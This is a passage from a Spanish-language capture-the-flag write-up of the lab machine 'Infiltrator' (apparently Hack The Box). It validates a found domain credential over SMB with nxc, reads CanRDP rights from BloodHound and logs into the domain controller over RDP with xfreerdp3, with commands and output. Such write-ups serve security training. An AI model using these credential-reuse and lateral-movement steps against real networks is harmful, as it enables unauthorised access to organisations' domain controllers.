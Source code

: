 ```bash
❯ nxc smb dc01.infiltrator.htb -u 'O.martinez' -p 'M@rtinez_P@ssw0rd!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\O.martinez:M@rtinez_P@ssw0rd! 
```

Revisamos en `BloodHound` de que el usuario `O.martinez@infiltrator.htb` dispone de privilegios `CanRDP` sobre el equipo `DC01`. Por lo cual podríamos conectarnos por RDP al Domain Controller.

<figure><img src="../../.gitbook/assets/imagen (41).png" alt=""><figcaption></figcaption></figure>

Nos conectaremos mediante `xfreerdp3` al DC para tener acceso remoto por RDP y tener entorno gráfico.

```bash
❯ xfreerdp3 /u:O.martinez /p:'M@rtinez_P@ssw0rd!' /v:10.10.11.31 /dynamic-resolution
```

Verificamos que disponemos del disco `C:` y de una unidad cifrada con BitLocker `E:`.
